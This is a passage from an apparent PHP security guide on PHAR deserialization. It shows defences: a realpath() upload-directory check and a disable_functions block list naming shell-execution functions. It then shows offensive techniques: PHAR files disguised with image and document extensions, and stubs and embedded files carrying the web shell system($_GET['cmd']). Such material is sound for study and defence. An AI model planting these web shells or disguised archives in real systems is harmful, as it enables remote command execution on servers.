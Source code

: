 ```php
<?php
// Use realpath() to resolve paths
$real_path = realpath($file);
$allowed_dir = realpath('/var/www/uploads/');

if (strpos($real_path, $allowed_dir) !== 0) {
    die('Access denied');
}
?>
```

#### 4. Disable Dangerous Functions

```php
<?php
// In php.ini, disable dangerous functions
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
?>
```

## Advanced Techniques

### PHAR with Different Extensions

```php
<?php
// Create PHAR with various extensions
$extensions = ['jpg', 'png', 'gif', 'pdf', 'docx'];
foreach ($extensions as $ext) {
    $phar = new Phar("exploit.$ext");
    // ... set up malicious metadata
}
?>
```

### PHAR with Custom Stubs

```php
<?php
// Custom stub that executes immediately
$phar->setStub('<?php
    // Malicious code here
    system($_GET["cmd"]);
    __HALT_COMPILER();
?>');
?>
```

### PHAR with Multiple Files

```php
<?php
// Add multiple files to PHAR
$phar->addFromString('shell.php', '<?php system($_GET["cmd"]); ?>');
$phar->addFromString('config.php', '<?php phpinfo(); ?>');
?>
```
